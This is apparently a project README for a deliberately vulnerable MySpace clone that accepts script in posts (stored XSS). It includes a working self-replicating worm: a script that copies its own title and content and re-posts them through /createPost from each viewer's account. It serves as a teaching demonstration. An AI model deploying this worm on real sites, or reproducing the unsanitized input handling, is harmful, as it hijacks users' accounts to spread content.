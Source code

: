 # YourSpaceWorm
Simple myspace clone vulnerable to a myspace worm

## Database:

Mongodb nosql database. Everything stored as documents (jsons)

### users document:
```json

{
    _id: ObjectId
    username: unique string
    password: string
    name: string
    timeline: [ post subdocument ]
}
```
### posts subdocument:
```json
{
    _id: ObjectId
    title: string
    content: string
}
```

## Stored XXS
The website posts are vulnerable to stored xxs. Users can put js code into both the title and content of the posts which allows them to customize their profile. 

# Worm Code 

### Title
```html
<!-- Title -->
<span class="worm-title">Mike Zylka is the coolest person out there. Go visit his site. </span>
```
### Content
```html
<!-- Content -->
<script class="worm-script" async>
(function() {
let wormTitle = "<span class='worm-title'>" +document.getElementsByClassName('worm-title')[0].parentElement.innerText + "</span>";
console.log(wormTitle)

let wormContent = "<script class=\"worm-script\" async>" + document.getElementsByClassName('worm-script')[0].innerText + "<\/script>";
console.log(wormContent)


async function wormPost() {
const result = await fetch('/createPost', {
                            method: 'POST',
                            headers: {
                                'Content-Type': 'application/json'
                            },
                            body: JSON.stringify({
                                title: wormTitle,
                                content: wormContent
                            })
                        }).then((res) => res.json());
console.log(result);
}

wormPost()

})();
</script>
```
